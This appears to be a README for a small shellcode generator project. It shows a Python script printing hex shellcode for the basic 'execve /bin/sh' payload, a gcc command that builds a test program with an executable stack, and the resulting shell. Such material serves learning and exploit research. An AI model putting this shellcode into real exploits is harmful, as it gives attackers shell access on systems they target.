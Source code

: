 # Usage

## The shellcode python generator

It uses the simplest "execve /bin/sh" shellcode by default

```bash
python3 generate_shellcode.py                                                                
Shellcode: 4831c05048bf2f2f62696e2f7368574889e74831f64831d2b03b0f05
```

## test_payload
`gcc -o test_payload test_payload.c -z execstack`

```bash
./test_payload               

$ id
uid=1000(xtk)...
```
